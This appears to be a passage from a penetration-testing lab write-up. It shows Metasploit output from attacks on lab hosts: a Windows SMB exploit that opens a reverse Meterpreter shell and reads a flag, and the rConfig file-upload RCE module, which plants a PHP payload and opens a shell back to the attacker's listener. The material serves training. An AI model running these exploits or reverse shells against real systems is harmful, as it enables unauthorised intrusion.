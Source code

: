 ```
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.15.92:4444 -> 10.129.201.97:49673) at 2023-02-01 04:30:54 -0500

meterpreter > shell
Process 684 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type \flag.txt
type \flag.txt
EB-Still-W0rk$
```

**Answer:** `EB-Still-W0rk$`

---
## Infiltrating Unix/Linux
### Question 1:
![](./attachments/Pasted%20image%2020230201105410.png)
*Hint: Pay careful attention to what happens when the exploit is run.*

```
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```
